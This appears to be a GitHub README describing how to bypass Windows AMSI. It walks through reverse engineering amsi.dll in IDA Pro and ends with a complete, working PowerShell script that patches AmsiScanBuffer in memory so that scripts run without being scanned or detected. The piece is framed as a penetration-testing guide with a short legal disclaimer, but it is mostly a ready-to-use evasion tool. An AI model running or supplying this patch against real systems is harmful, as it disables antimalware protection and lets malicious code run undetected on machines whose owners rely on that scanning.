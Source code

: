 # Amsi-Patch-Updated-2025  
### **Bypass AMSI (Antimalware Scan Interface) in PowerShell**  

This guide shows how to dynamically patch the `AmsiScanBuffer` function in PowerShell to bypass AMSI, enabling the execution of scripts without being detected. This technique is useful for penetration testing, security research, and other ethical hacking practices.  

> **Disclaimer:** Always use these techniques in controlled, legal environments. Misuse may lead to legal and ethical consequences.
![image](https://github.com/user-attachments/assets/17d63b89-01ae-428a-aa13-812deed92961)

---

## **Steps to Patch AMSI in PowerShell**

### 1. **Reverse Engineer `amsi.dll` using IDA Pro**  
If you have a free version of IDA Pro (version 9.0 or below), follow these steps:  

- **Open `amsi.dll` in IDA Pro.**  
  Load the `amsi.dll` file and allow IDA to analyze the binary.
  
- **Navigate to Exports Tab.**  
  Press `Shift+F12` to open the **Exports** tab and locate the `AmsiScanBuffer` function.  
  Double-click `AmsiScanBuffer` to jump to its code.

- **Identify the Critical Code.**  
  Look for the key logic in `AmsiScanBuffer`. This is the part that handles the scanning process.  
  You should see something like this in the disassembly (example below):  

  ![Critical Code Example](https://github.com/user-attachments/assets/0ca7316e-0264-46a2-8e80-d9e2c0d24179)

- **Trace the Function Prologue.**  
  Follow the call chain of `AmsiScanBuffer` to understand how it interacts with other functions. The red arrow in the IDA disassembly highlights where the critical code lies.

- **Detect Control Flow Guard (CFG):**  
  Look for `_guard_dispatch_icall`. This is used for Control Flow Guard and helps prevent malicious modifications. You'll need to patch around this.

### 2. **Locate the Patch Area**  
- **Find where `AmsiScanBuffer` returns a result.**  
  This is the point where the AMSI scan function provides its result to the caller.  
- **Modify the return value.**  
  Rather than allowing a normal scan, modify it to always return an error code like `0x80070057` (invalid parameter), which will prevent AMSI from scanning.

### 3. **Create a PowerShell Patch**  

Here is how to write the PowerShell script that patches `AmsiScanBuffer`:  

- **Load the `amsi.dll` library.**  
  Use `LoadLibrary` to get a handle to `amsi.dll`.  
- **Locate the `AmsiScanBuffer` function.**  
  Use `GetProcAddress` to find the address of `AmsiScanBuffer`.
- **Change memory protection.**  
  Use `VirtualProtect` to modify the memory protection of the `AmsiScanBuffer` function, ensuring it’s writable.
- **Overwrite the function.**  
  Patch the function to return the error code `0x80070057` (invalid parameter) instead of performing the normal scan.

### 4. **Run the PowerShell Script to Bypass AMSI**  

Once the script is ready:  

- **Save and execute the PowerShell script.**  
  Running the script will patch `AmsiScanBuffer`, bypassing AMSI and allowing you to execute PowerShell scripts without being detected.
  
- **Result:**  
  AMSI will fail to scan scripts, enabling execution without triggering an alert.

---

## **PowerShell Script Example**  

Here's an example of how you can patch `AmsiScanBuffer` using PowerShell:  

```powershell
$Kernel32 = Add-Type -MemberDefinition @"
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr LoadLibrary(string lpLibFileName);
    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool VirtualProtect(IntPtr lpAddress, uint dwSize, uint flNewProtect, out uint lpflOldProtect);
"@ -Name "Kernel32" -Namespace "Win32" -PassThru

$AmsiDll = $Kernel32::LoadLibrary("amsi.dll")
$AmsiScanBuffer = $Kernel32::GetProcAddress($AmsiDll, "AmsiScanBuffer")

# Ensure we successfully located AmsiScanBuffer
if ($AmsiScanBuffer -eq [IntPtr]::Zero) {
    Write-Host "Failed to find AmsiScanBuffer!"
    exit
}

# Patch: MOV EAX, 0x57 000780, RET
$patch = [Byte[]](0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)

[UInt32]$oldProtect = 0
$Kernel32::VirtualProtect($AmsiScanBuffer, [UInt32]6, 0x40, [Ref]$oldProtect)
[System.Runtime.InteropServices.Marshal]::Copy($patch, 0, $AmsiScanBuffer, $patch.Length)

Write-Host "AMSI Patched Successfully!"
